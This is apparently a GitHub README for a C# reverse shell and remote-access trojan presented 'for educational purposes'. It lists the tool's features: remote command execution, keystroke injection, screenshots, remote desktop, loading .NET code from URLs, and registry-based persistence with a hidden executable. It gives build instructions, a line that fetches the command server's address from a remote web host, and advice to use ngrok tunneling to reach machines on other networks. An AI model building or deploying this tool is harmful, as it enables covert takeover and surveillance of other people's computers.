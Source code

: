 # README.MD
### Project Description
This project is a demonstration of a reverse shell written in C#. It is a powerful tool for remote system management, intended for educational and research purposes.

#### Key Code Features
1. Network Connection: The code uses the TcpClient class to establish a network connection with a remote server. The server's IP address and port are retrieved from a remote web server.

2. Cryptography: To ensure communication security, the code utilizes the SHA256 hashing algorithm and XOR encryption, along with RSA encryption for end-to-end encryption. The keys are regenerated for each iteration to enhance security.

3. Command Handling: The code can read commands from a process's standard output stream and send them to the server. It can also read commands from the server and execute them on the local machine.

4. Additional Functionality: The code includes additional features such as sending keyboard keystrokes, displaying message boxes, executing commands asynchronously, capturing remote screenshots, and loading .NET libraries from URLs.

5. Persistence: The code attempts to make the reverse shell persistent by adding an entry to the Windows registry to execute the program during the user's session startup. It also copies the executable file into a hidden directory.

#### Usage
To download .NET 7.0 as a portable version, see here: Download .NET 7.0 SDK

Direct link: dotnet-sdk-7.0.306-win-x64.zip

#### Compile the Client:
To get started, change the URL at line 158 of client\Program.cs:

```csharp
string ip_port = new WebClient().DownloadString("https://outofhere.example.repl.co/");  // replace by YOUR WebServer url
```
Then, compile the client using dotnet.exe:

```cmd / powershell
dotnet.exe publish client.csproj
```
The single-file binary can be found at:
```path
client\bin\Debug\net7.0-windows\win-x64\publish
```
Next, publish the server:

```cmd / powershell
dotnet.exe publish server.csproj
```
The single-file binary can be found at:

```path
server\bin\Debug\net7.0-windows\win-x64\publish
```
To connect to the server from a network other than the client's, it is recommended to use the ngrok tunneling service and add the IP address and port to a web server with a fixed domain (e.g., on a Repl.it HTML, CSS, JS on https://replit.com).

// The IP address and port must be separated by a colon only.

Example:

```IP:Port
1.2.3.4:8080
```
### Demonstration
#### For information, the videos were recorded on the same machine with real-time threat protection enabled [without sending samples], but it is indeed CLIENT.EXE that performs the actions.

##### - reverse shell
If You Don't see : https://github.0xsql.repl.co/reverse_shell.gif
<img src="https://github.0xsql.repl.co/reverse_shell.gif">

##### - MessageBox and SendKeys
If You Don't see : https://github.0xsql.repl.co/send_keys_and_msgb.gif
<br> example of command
msgb>/Your Message
SKS>/Your Keys

##### - remote-desktop
If You Don't see : <a href="https://github.0xsql.repl.co/remote-desktop.gif" target="_blank">https://github.0xsql.repl.co/remote-desktop.gif</a>
<br> For remote-desktop start server-remote-video.exe in remote-video\server-remote-video\server\bin\Debug
and execute the command on server.exe :
remote-desktop>/<Your IP Address>:8081

#### Disclaimer
This project is published for educational and research purposes. The author is not responsible for any misuse of this tool.
